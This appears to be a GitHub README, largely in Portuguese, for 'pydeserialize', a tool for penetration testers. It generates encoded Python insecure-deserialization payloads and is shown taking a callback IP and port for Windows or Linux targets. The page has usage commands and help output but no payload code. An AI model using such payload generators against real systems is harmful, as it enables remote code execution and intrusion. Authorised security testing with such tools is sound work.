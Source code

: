 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=header"/>

[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=pydeserialize)](https://git.io/typing-svg)



<h4 align="center">Tool for testing python insecure deserialization vulnerabilities</h4>


<p align="center">
  <a href="#características">Features</a> •
  <a href="#instalação">Install</a> •
  <a href="#forma-de-utilização">How to use</a> •
  <a href="#executando-pydeserialize">Usage</a>
</p>

---


O pydeserialize é uma ferramenta que gera payloads de desserialização insegura em python. Possui uma funcionalidade que faz encode das payloads desejadas e dessa forma sendo simples e otimizada para velocidade. pydeserialize é construído para fazer apenas uma coisa - gera payloads de desserialização insegura + encodes e faz isso muito bem.

Projetei o `pydeserialize` para cumprir todas as responsabilidades para gera payloads e encodes, mantive um modelo consistentemente passivo para torná-lo útil para testadores de penetração.

# Características

 - Gera payloads para explora vulnerabilidades de desserialização insegura em python    

# Forma de utilização

```sh
pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
pydeserialize -ip 192.168.4.113 -e b64-p 80 -o Linux
```
Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
```yaml
                 ,--.                            ,--.        ,--.,--.
 ,---.,--. ,--.,-|  | ,---.  ,---.  ,---. ,--.--.`--' ,--,--.|  |`--',-----. ,---.
| .-. |\  '  /' .-. || .-. :(  .-' | .-. :|  .--',--.' ,-.  ||  |,--.`-.  / | .-. :
| '-' ' \   ' \ `-' |\   --..-'  `)\   --.|  |   |  |\ '-'  ||  ||  | /  `-.\   --.
|  |-'.-'  /   `---'  `----'`----'  `----'`--'   `--' `--`--'`--'`--'`-----' `----'
`--'  `---'
     v0.0.1 - @joaoviictorti

options:
  -h, --help            show this help message and exit
  -ip IP                Insert ip
  -p PORT               Insert port
  -e {b64,shell,urlencode,hex} Insert encoding
  -o {Windows,Linux}    Insert operational system
```
